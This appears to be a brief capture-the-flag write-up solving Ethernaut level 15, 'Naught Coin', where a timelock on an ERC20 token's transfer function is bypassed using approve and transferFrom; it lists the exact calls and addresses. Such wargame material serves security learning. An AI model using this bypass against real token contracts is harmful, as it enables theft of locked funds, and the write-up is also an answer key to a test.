 [15 - Naught Coin](https://ethernaut.openzeppelin.com/level/0x36E92B2751F260D6a4749d7CA58247E7f8198284)

Solution: 
* can not use the transfer function directly, if player has the tokens 
* the token is an ERC20, so we can use approve && transferFrom to get them to another address
* await contract.approve("0xa22E55b8727BD4cd436cdb3Cf6151bafAA65D11E", "1000000000000000000000000");
* load contract in Remix, go to second account and transferFrom(player, <any_to_address>, "1000000000000000000000000"); contract.transferFrom(0x690aD8fABE17f1EeFF88E2Ef900f7b88e6eC0aF0, 0x8Fca6647c3Cb2A49C364809B7D64B55F1b0aE794, 1000000000000000000000000);